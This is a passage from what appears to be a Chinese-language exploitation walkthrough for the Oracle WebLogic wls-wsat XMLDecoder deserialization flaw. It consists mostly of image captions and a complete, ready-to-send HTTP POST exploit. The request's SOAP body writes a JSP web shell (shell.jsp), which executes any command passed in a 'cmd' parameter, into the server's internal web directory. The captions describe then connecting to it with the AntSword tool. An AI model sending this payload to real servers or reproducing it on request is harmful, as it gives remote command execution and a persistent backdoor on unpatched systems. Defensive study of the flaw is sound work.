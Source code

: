 ```
  </object></java></java>  
  </work:WorkContext>   
  </soapenv:Header>   
  <soapenv:Body/>
</soapenv:Envelope>
```  
  
发送HTTP请求报文  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVED3XxOEnDMGeo7ibItRxBp8kTl9yjq61u6c49Iiac9L09sacYyxsKRZRA/640?wx_fmt=png&from=appmsg "")  
  
访问WebShell  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEyp6zPODkzuvYsibXP5ng45nDy8TaQH1AaDMibAUTst4gsFggiaGcNlMeg/640?wx_fmt=png&from=appmsg "")  
  
蚁剑连接WebShell  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEeAzv9kbTVl8aMic1iamJIGgQKMEoKzMibcDR2Y6kYibQvImia4wBr9PKP5w/640?wx_fmt=png&from=appmsg "")  
  
也可以将WebShell修改为HTTP响应式的WebShell  
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.111.128:7001
Accept-Encoding: gzip, deflate
Accept: */*Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 812

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>   
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
  <java><java version="1.4.0" class="java.beans.XMLDecoder"> 
  <object class="java.io.PrintWriter">   
  <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/shell.jsp</string> 
  <void method="println">
<string>
  <![CDATA[
<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048];  while((a=in.read(b))!=-1){ out.println(new String(b)); } %>
  ]]> 
  </string>  
  </void>   
  <void method="close"/>   
  </object></java></java>  
  </work:WorkContext>   
  </soapenv:Header>   
  <soapenv:Body/>
</soapenv:Envelope>
```  
  